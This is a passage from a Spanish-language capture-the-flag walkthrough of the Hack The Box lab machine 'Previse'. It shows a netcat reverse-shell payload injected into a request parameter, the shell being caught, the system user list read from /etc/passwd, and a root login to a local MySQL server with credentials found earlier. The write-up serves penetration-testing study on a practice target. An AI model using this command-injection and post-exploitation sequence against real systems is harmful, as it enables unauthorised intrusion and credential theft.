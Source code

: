 ### 4º Enviamos la petición con la instrucción maliciosa

En el _repeater_, cambiamos el valor del parámetro `delim` e introducimos un payload de `reverse shell`, en mi caso usaré un payload de `nc`:

![image](https://user-images.githubusercontent.com/67548295/147699744-8ef9404e-2bda-452e-a78d-9b9f42acc259.png)

# 4º - Disfrutar la shell

```bash
┌─[z3r0byte@z3r0byte]─[~/Descargas/siteBackup]
└──╼ $ nc -lvp 4444
Listening on 0.0.0.0 4444
Connection received on 10.10.11.104 53622
uname -a
Linux previse 4.15.0-151-generic #157-Ubuntu SMP Fri Jul 9 23:07:57 UTC 2021 x86_64 x86_64 x86_64 GNU/Linux
```
A partir de aquí, solamente habría que convertir esta `shell` en una [Fully interactive TTY](https://metahackers.pro/upgrade-shell-to-fully-interactive-tty-shell/){:target="\_blank"}{:rel="noopener nofollow"}.

---

Una vez dentro del sistema como el usuario `www-data`, visualizo el archivo `/etc/passwd` en busca de más usuarios.

```bash
www-data@previse:/$ grep -E 1[0-9]{3}  /etc/passwd | sed s/:/\ / | awk '{print $1}'
m4lwhere
```

Vemos que aparte de `root`, tenemos el usuario `m4lwhere`. Vendrá bien tenerlo en cuenta.

Me acuerdo de la credencial de `MySQL` que habíamos encontrado y miro si este software está activo en la máquina de forma interna:

```bash
www-data@previse:/$ netstat -nat | grep "127.0.0.1"
tcp        0      0 127.0.0.1:3306          0.0.0.0:*               LISTEN 
```
Vemos que si, está corriendo de forma interna ya que el puerto `3306` corresponde a `MySQL` por defecto.

Sabiendo esto, podemos iniciar sesión en `MySQL` con las credenciales encontradas.

```bash
www-data@previse:/$ mysql -u root -p 
Enter password: 
Welcome to the MySQL monitor.  Commands end with ; or \g.
Your MySQL connection id is 2063
Server version: 5.7.35-0ubuntu0.18.04.1 (Ubuntu)

Copyright (c) 2000, 2021, Oracle and/or its affiliates.

Oracle is a registered trademark of Oracle Corporation and/or its
affiliates. Other names may be trademarks of their respective
owners.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

mysql> 
```
